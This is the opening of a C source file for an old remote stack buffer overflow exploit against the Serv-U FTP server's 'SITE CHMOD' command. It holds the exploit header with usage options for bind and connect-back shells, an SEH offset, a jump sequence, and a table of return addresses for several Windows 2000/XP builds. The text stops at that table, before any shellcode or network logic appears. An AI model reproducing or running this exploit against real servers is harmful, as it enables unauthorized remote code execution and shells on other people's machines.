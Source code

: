 EXP
---

    /*
    *-----------------------------------------------------------------------
    *
    * Servu.c - Serv-U FTPD 3.x/4.x "SITE CHMOD" Command
    * Remote stack buffer overflow exploit
    *
    * Copyright (C) 2004 HUC All Rights Reserved.
    *
    * Author   : lion
    *          : lion@cnhonker.net
    *          : http://www.cnhonker.com
    * Date     : 2004-01-25
    *          : 2004-01-25 v1.0 Can attack Serv-U v3.0.0.20~v4.1.0.11
    * Tested   : Windows 2000 Server EN/GB
    *          :     + Serv-U v3.0.0.20~v4.1.0.11
    * Notice   : *** Bug find by kkqq kkqq@0x557.org ***
    *          : *** You need a valid account and a writable directory. ***
    * Complie  : cl Servu.c
    * Usage    : Servu <-i ip> <-t type> [-u user] [-p pass] [-d dir] [-f ftpport] [-c cbhost] [-s shellport]
    *------------------------------------------------------------------------
    */

    #include <winsock2.h>
    #include <windows.h>
    #include <stdio.h>
    #include <stdlib.h>

    #pragma comment(lib, "ws2_32")

    // for bind shellcode
    #define BIND_OFFSET     91

    // for connectback shellcode
    #define PORT_OFFSET     95
    #define IP_OFFSET       88

    #define SEH_OFFSET      0x193   //v3.0.0.20~v4.1.0.11
    //#define   SEH_OFFSET      0x133 // work on v3.0.0.16~v3.0.0.19, for connectback shellcode
    #define MAX_LEN         2048
    #define JMP_OVER        "\xeb\x06\xeb\x06"
    #define VERSION         "1.0"

    struct
    {
        DWORD   dwJMP;
        char    *szDescription;
    }targets[] =
    {
        {0x7ffa4a1b,"Serv-U v3.0.0.20~v4.1.0.11  GB     2K/XP  ALL"},   //for all GB win2000 and winxp
    // {0x74FD69A9,"Serv-U v3.0.0.20~v4.1.0.11  GB     2K     SP3/SP4"},    //wsock32.dll jmp ebx addr
    // {0x71a469ad,"Serv-U v3.0.0.20~v4.1.0.11  GB     XP     SP0/SP1"},    //wsock32.dll jmp ebx addr
    // {0x77e45f17,"Serv-U v3.0.0.20~v4.1.0.11  GB/BG  2K     SP4"},    //user32.dll jmp ebx addr
    // {0x7ffa2186,"Serv-U v3.0.0.20~v4.1.0.11  BG     2K/XP  ALL"},    //for all BG win2000 and winxp
    // {0x6dec6713,"Serv-U v3.0.0.20~v4.1.0.11  BG     2K     SP4"},    //setupapi.dll jmp ebx addr
    // {0x6DEE6713,"Serv-U v3.0.0.20~v4.1.0.11  KR     2K     SP4"},    //setupapi.dll jmp ebx addr
    // {0x77886713,"Serv-U v3.0.0.20~v4.1.0.11  EN     2K     SP4"},    //setupapi.dll jmp ebx addr
    // {0x76b42a3a,"Serv-U v3.0.0.20~v4.1.0.11  EN     XP     SP1"},
    // {0x12345678,"Serv-U v3.0.0.20~v4.1.0.11"},
    },v;
